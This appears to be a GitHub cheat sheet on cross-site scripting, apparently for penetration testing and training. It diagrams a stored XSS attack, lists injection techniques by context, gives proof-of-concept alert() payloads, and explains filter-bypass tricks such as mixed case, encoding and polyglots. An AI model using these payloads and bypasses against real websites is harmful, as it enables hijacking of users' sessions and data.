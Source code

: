 ```yaml
---
legal-banner: true
---
```


```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Application
    participant C as Database
    participant U as User

    A->>B: 1. Identifies Vulnerable Web App
    A->>B: 2. Injects Malicious Script via Input
    B->>C: 3. Stores Script in Database
    C->>B: 4. Retrieves Script on Request
    B->>U: 5. Serves Page with Script
    U->>U: 6. Executes Script (Browser)
    U->>A: 7. Script Sends Data to Attacker
```

### **Raw HTML Injection (Context-Based Injection)**

1. Create New HTML Tags:
	You can create new tags `<script>`, `<img>`, `<svg>`?
3. Use Event Handlers:
	Use attributes that support the `javascript:` protocol or event handlers like `onload`, `onerror`.
4. Client-Side Template Injection:
	Check if any JS engine (AngularJS, VueJS, etc.) processes the HTML content.
5. Scriptless Injection 
	If you can’t create executable HTML tags, consider Dangling Markup.
6. Bypass Protections
	Use various encoding techniques to bypass filters and protections.


#### Example Payloads:

1. Basic Payload: 
	`<script>alert(1)</script>`
2. Image Payload: 
	`<img src=x onerror=alert(1)>`
3. SVG Payload: 
	`<svg onload=alert('XSS')>`
4. Iframe Payload: 
	`<iframe src="javascript:alert(1)"></iframe>`
5. Event Handler: 
	`<img src=x onerror=alert(1)>`

### **Inside HTML Attributes (Context-Based Injection)**

1. Escape to Raw HTML:
	Try to escape out of the attribute context using `">`.
2. Inject New Events/Attributes:
	Inject new events or attributes that support JavaScript execution.
3. Bypass Protections:
	Use various encoding techniques to bypass filters and protections.

#### Example Payloads:

1. Attribute Escape: 
	`"><img src=x onerror=alert(1)>`
2. Event Injection: 
	`" autofocus onfocus=alert(1) x="`
3. Protocol Injection: 
	`href="javascript:alert(1)"`
4. HTML Entity Encoding: 
	`<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>`
5. Unicode Encoding: 
`<img src onerror=\u0061\u006C\u0065\u0072\u0074(1)>`

### **Inside JavaScript Code (Context-Based Injection)**

1. Escape the Tag: 
	Inject `</script>` to escape the script context.
3. Escape String Context:
	Use techniques to break out of string literals and execute arbitrary JS code.
5. Template Literals:
	Utilize `${ ... }` syntax to inject JS expressions inside template literals.
7. Bypass Protections:
	Use various encoding methods to bypass protections.

#### Example Payloads:

1. Escape Script Tag: 
	`</script><img src=1 onerror=alert(document.domain)>`
2. Escape String Context: 
	`'-alert(document.domain)-'`
3. Template Literals: 
	`${alert(1)}`
4. Unicode Encoding: 
	`<script>\u0061lert(1)</script>`

### **JavaScript Function Execution**

1. Function Parameter Injection:
	Indicate the name of the function to execute via a parameter, e.g., `?callback=alert(1)`.
2. DOM XSS Exploitation:
	Pay attention to how your input is controlled and if it is used by any sink functions.

### **Reflection Scenarios (Debugging Client-Side JS)**

1. Intermediately Reflected:
	If the value of a parameter or path is reflected on the web page, you could exploit Reflected XSS.
2. Stored and Reflected:
	If a value controlled by you is saved on the server and reflected every time you access a page, you could exploit Stored XSS.
3. Accessed via JS:
	If a value controlled by you is accessed using JavaScript, you could exploit DOM XSS.

### **Contexts for XSS Exploits (Debugging Client-Side JS)**

1. Raw HTML:
	Reflecting input in raw HTML allows you to use tags like `<img>`, `<iframe>`, `<svg>`, `<script>` to execute JS.
2. Inside HTML Tags Attribute:
	Escaping from attributes or using events that support JS execution within attributes (e.g., `onclick`, `href="javascript:"`).
3. Inside JavaScript Code:
	Escaping from `<script>` tags, strings, or using template literals for JS execution.

### **Special Scenarios and Bypasses (Debugging Client-Side JS)**

1. Accessing JavaScript Functions:
	Use parameters to control function execution, such as `?callback=alert(1)`.
2. Encoding Tricks:
	Bypass filters using HTML encoding, Unicode encoding, URL encoding, etc.
3. Special Protocols:
	Use `javascript:` or `data:` protocols in attributes like `href` or `src`.

### **Advanced Techniques**

1. JavaScript Hoisting: Exploit scenarios where undeclared variables or functions are used.
2. CSS-Gadgets: Use CSS to manipulate element positioning and maximize the impact of XSS.
3. Polyglots: Create payloads that can be executed in multiple contexts (HTML, JavaScript, etc.).

### **Bypasses and Obfuscation**

1. Random Capitalization:
	Vary the capitalization of tags and attributes (e.g., `<sCrIpT>`).
2. Double Tag Injection:
	Use double tags to bypass single tag filters (e.g., `<script><script>`).
3. Unexpected Parent Tags:
     Use unexpected parent tags like `<svg><x><script>alert(1)</script></x></svg>`.
4. Unicode and HTML Encoding:
	Use Unicode or HTML entities to obfuscate payloads (e.g., `\u0061lert(1)`, `&apos;-alert(1)-&apos;`).

[XSS Training and Testing Platform](https://xss-game.appspot.com/)
